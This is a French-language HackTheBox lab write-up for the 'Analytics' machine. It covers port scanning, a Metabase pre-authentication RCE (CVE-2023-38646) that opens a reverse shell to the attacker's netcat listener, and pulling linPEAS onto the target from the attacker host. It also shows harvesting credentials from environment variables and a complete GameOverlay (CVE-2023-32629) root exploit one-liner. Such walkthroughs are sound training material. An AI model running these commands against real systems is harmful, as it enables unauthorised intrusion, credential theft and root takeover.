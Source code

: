 ```yaml
---
title: HTB | Analytics
description: Analytics is an easy difficulty Linux machine with exposed HTTP and SSH services. Enumeration of the website reveals a Metabase instance, which is vulnerable to Pre-Authentication Remote Code Execution (CVE-2023-38646), which is leveraged to gain a foothold inside a Docker container. Enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. Post-exploitation enumeration reveals that the kernel version that is running on the host is vulnerable to GameOverlay, which is leveraged to obtain root privileges.
slug: analytics-htb
date: 2023-12-30 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Analytics cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Analytics</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.233</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -An -p- 10.10.11.233

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

### /etc/hosts
On ajoute les noms de domaines necessaire. Un peu plus tard on découvrira qu'il y a également le nom de domaine: **data.analytical.htb**
```bash
## ...
10.10.11.233 analytical.htb
10.10.11.233 data.analytical.htb
```

### Metabase CVE
La machine semble utiliser metabase. En recherchant sur internet: metabase CVE.

On trouve tout de suite une vulnérabilité de 2023 exploitable assez facilemement pour la version de metabase installée.  
J'ai cloné un repo github avec la Proof of concert (PoC) ainsi qu'un autre script pour exploiter la vulnérabilité et ouvrir un shell.
```bash
┌──(kali㉿kali)-[~/…/HackTheBox/Machines/Analytics/CVE-2023-38646]
└─$ python3 CVE-2023-38646-POC.py --ip data.analytical.htb 
Failed to connect using HTTPS for data.analytical.htb. Trying next protocol...
None. Vulnerable Metabase Instance:-
             IP: data.analytical.htb
             Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```
D'après la CVE, si un setup Token est présent sur la page **/api/session/properties**, alors la machine est vulnérable.

### Metabase Exploit - Reverse Shell
Grâce aux deuxième script, on a réussi à ouvrir shell :
```bash
┌──(kali㉿kali)-[~/…/HackTheBox/Machines/Analytics/CVE-2023-38646]
└─$ python3 CVE-2023-38646-Reverse-Shell.py --rhost data.analytical.htb --lhost 10.10.14.125 --lport 44444
[DEBUG] Original rhost: data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.14.125, lport: 44444
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
...
```
Sur la kali, on a un deuxième terminal avec un nc ouvert :
```bash
┌──(kali㉿kali)-[~/github/dirsearch]
└─$ nc -lvp 44444
listening on [any] 44444 ...
connect to [10.10.14.125] from analytical.htb [10.10.11.233] 53506
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
d7bb30f10313:/$ whoami
whoami
metabase
```

### Enumeration (linPEAS)
Pour faire un recherche plus poussé sur la machine avec le compte accessible, on va utilisé l'outil **linPEAS**:
```bash
# KALI: On télécharge linPEAS.sh depuis la page "releases" du dépôt github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh

# KALI: On ouvre le port 80 à l'aide de python sur la machine hôte
sudo python3 -m http.server 80

# CIBLE: On récupère linPEAS.sh depuis la machine cible en se connectant sur le port 80 avec wget
wget 10.10.14.125:80/linPEAS.sh
```
Après l'execution de **linPEAS**, on a pu trouver un utilisateur et un mot de passe:
```bash
# $ env
...
META_USER=metalytics
META_PASS=An4lytics_ds20223#
...
```

### SSH as metalytics
On peut désormais se connecter en ssh avec le compte utilisateur trouvé:
```bash
┌──(kali㉿kali)-[~/Hacking/HackTheBox/Machines/Analytics]
└─$ ssh metalytics@10.10.11.233     
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
...
...
Last login: Sat Dec 30 17:28:13 2023 from 10.10.14.99
metalytics@analytics:~$ cat user.txt
8102.....9b97
```

## Privilege Escalation

### GameOverlay Exploit : CVE-2023–32629
On a executé a nouveau un linPEAS sur la machine sans grand succès. Cependant, on a trouvé la version qui tourne sur la machine: **Ubuntu 22.04.3**.

Après quelques recherches sur internet on a trouvé une faille exploitable dans cette version d'ubuntu expliqué ici : https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a

Il s'agit de la **CVE-2023–32629**. Il y a 3 commandes a écrire sur la machine pour vérifier si elle est vulnérable:
```bash
metalytics@analytics:~$ lsmod | grep overlay
overlay               188416  1
metalytics@analytics:~$ modinfo overlay
filename:       /lib/modules/6.2.0-25-generic/kernel/fs/overlayfs/overlay.ko
alias:          fs-overlay
license:        GPL
description:    Overlay filesystem
author:         Miklos Szeredi <miklos@szeredi.hu>
srcversion:     851BCABACE90D7C44199412
depends:        
retpoline:      Y
intree:         Y
name:           overlay
vermagic:       6.2.0-25-generic SMP preempt mod_unload modversions 
sig_id:         PKCS#7
signer:         Build time autogenerated kernel key
sig_key:        03:91:76:66:F0:D5:23:99:A0:4F:17:5E:BD:A8:42:D6:08:A9:5F:71
sig_hashalgo:   sha512
signature:      1E:49:B1:C3:CA:D2:84:15:17:4E:A5:AE:D6:E5:12:FD:D8:88:E3:C2:
        7B:55:50:11:FB:96:54:0C:E5:E7:39:D8:0A:3A:5A:1B:E2:9B:4D:63:
        70:8D:66:E1:72:15:90:BC:33:F2:7D:FA:B6:77:22:F1:7E:54:67:C8:
        9F:13:B4:87:0D:3B:DE:97:BC:06:1A:83:2C:BF:41:23:B5:73:D1:09:
        E6:A8:FE:BD:A3:8C:7D:4C:C9:B6:30:91:24:64:BB:0E:93:7D:99:44:
        2C:22:50:C8:75:9F:CC:67:54:65:AC:1C:CF:D5:87:A9:EC:71:9E:BF:
        C5:9E:C0:22:0E:2B:4F:9E:C9:69:B9:37:BA:B2:4F:7A:F2:A2:76:9C:
        D8:D6:7F:D0:8D:E8:64:D8:40:29:C1:E3:2C:9B:60:B9:35:A6:DA:E2:
        4D:75:90:42:84:98:AE:2B:D4:3A:13:50:94:AD:72:72:B8:35:50:F4:
        64:3C:23:BA:70:EC:D3:EE:05:03:0B:1E:61:01:42:65:2C:5D:44:75:
        CF:E1:62:47:41:02:7A:27:28:EB:F7:D9:02:AB:15:EB:1C:42:54:62:
        F0:2E:B0:FF:7D:AC:A0:FF:30:8F:24:E2:AD:43:7C:81:B8:F5:FB:25:
        D2:5A:71:53:45:99:BF:26:0E:40:D6:DD:3E:37:09:D8:7C:2E:9F:29:
        33:86:CA:53:45:F2:3A:B8:E5:0B:D4:32:38:49:FB:C0:6B:06:19:83:
        6F:FA:05:9D:6C:97:CB:0F:C4:10:EB:A3:76:53:B6:97:CC:EC:86:96:
        01:8F:AB:EB:31:F2:CA:0B:0E:D0:E3:03:6B:3B:30:0B:83:07:74:04:
        96:B7:E6:A2:B7:1D:7A:40:30:FC:F3:B0:E8:A4:F6:2F:5C:7F:F3:28:
        9F:A6:9E:F1:40:ED:F1:21:0E:2E:0A:F0:AC:1D:96:28:8D:C0:A2:56:
        F6:F1:60:F9:2A:36:8C:0C:18:BE:C3:B5:C4:60:3A:53:66:F0:3B:BC:
        92:D1:09:39:20:AB:FE:4B:68:24:A8:0A:0C:77:86:69:10:19:F9:70:
        4F:A3:8A:49:BA:B8:71:27:AA:E9:02:28:09:54:82:34:69:0D:C8:EA:
        0E:44:4A:54:32:D2:FC:E5:08:A1:31:1D:FE:BC:AD:06:75:0F:EF:DC:
        47:6B:F6:BF:E0:E6:50:4E:51:F8:E6:B0:29:5B:7B:D7:D4:C6:1B:E6:
        C5:EA:30:01:C6:F9:C4:B1:28:89:C5:63:7C:5F:9D:CB:43:BB:87:7C:
        A7:DF:C7:4C:C3:8D:17:BD:61:EE:CA:D8:3B:32:81:2B:FA:D0:F6:70:
        47:6C:ED:FA:FF:97:EF:4D:B3:C8:D3:E4
parm:           check_copy_up:Obsolete; does nothing
parm:           redirect_max:Maximum length of absolute redirect xattr value (ushort)
parm:           redirect_dir:Default to on or off for the redirect_dir feature (bool)
parm:           redirect_always_follow:Follow redirects even if redirect_dir feature is turned off (bool)
parm:           index:Default to on or off for the inodes index feature (bool)
parm:           nfs_export:Default to on or off for the NFS export feature (bool)
parm:           xino_auto:Auto enable xino feature (bool)
parm:           metacopy:Default to on or off for the metadata only copy up feature (bool)
metalytics@analytics:~$ mount | grep overlay
overlay on /var/lib/docker/overlay2/a7f6f5739f75f1e4bb96947354c287e8832cbd56e9413c7eb57975b922c7ae7c/merged type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/BC2SP2TYPJ5O4YFC453ADZ5EKX:/var/lib/docker/overlay2/l/XW5JTCT2MPEXHQG7MOTAI2T4KP:/var/lib/docker/overlay2/l/NFDWLGW3V3JHKDMCSIVCIGFRMU:/var/lib/docker/overlay2/l/MW4MXSGOUKAHBMLEMZ4WR4K7P2:/var/lib/docker/overlay2/l/AT6LTLZWU4G7MV5NOTUEB7AR4N:/var/lib/docker/overlay2/l/E6VXP5EJLZW24GE2AHMELF7FTD:/var/lib/docker/overlay2/l/3BARVZES6SW2GPRYNNYXZNM63J:/var/lib/docker/overlay2/l/JMBR2L6LC7K3O6CZHA24AF2CYR:/var/lib/docker/overlay2/l/PMQWGTOJEKRSOK2OV65KQJBDQY:/var/lib/docker/overlay2/l/L7Y5QRKKSPELNF2AUJ55RR2MV5:/var/lib/docker/overlay2/l/RO73TCQC6F7YHICLAOSVCCNSQ6,upperdir=/var/lib/docker/overlay2/a7f6f5739f75f1e4bb96947354c287e8832cbd56e9413c7eb57975b922c7ae7c/diff,workdir=/var/lib/docker/overlay2/a7f6f5739f75f1e4bb96947354c287e8832cbd56e9413c7eb57975b922c7ae7c/work)
```
On a pu en conclure que la machine était bien vulnérable et on a executé le payload expliqué dans l'article.
```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
root@analytics:~# cd /root
root@analytics:/root# cat root.txt 
f241.....692e
```